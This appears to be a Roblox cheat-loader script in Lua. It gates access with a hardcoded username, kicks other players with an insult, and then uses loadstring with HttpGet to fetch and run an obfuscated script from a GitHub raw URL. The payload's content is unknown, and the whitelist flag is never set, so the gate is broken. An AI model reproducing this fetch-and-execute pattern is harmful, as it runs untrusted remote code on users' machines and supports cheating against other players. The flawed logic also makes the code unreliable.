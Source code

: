 -- // Logins: // --

local Usernames = {
["yamete-uwu"] = true;
}



-- // Variables: // --

local Login = game.CoreGui.Login

local Key = Login.Main.WhitelistFrame.Key

local Username = Login.Main.UserFrame.UserBox

local Userpassed = false

local WLPassed = false



-- // Login Function: // --

if Usernames[Username.Text] then
Userpassed = true
else
game.Players.LocalPlayer:Kick("dumbass! Wrong key")
end




if Userpassed == true then
if WLPassed == true then
for i,v in pairs(game.CoreGui:GetDescendants()) do
 if v.Name == "Main" then
  v:Destroy()
 end
end
loadstring(game:HttpGet('https://raw.githubusercontent.com/Balligusapos/Balligusapos/main/robloxs-obfuscated'))()
end
end
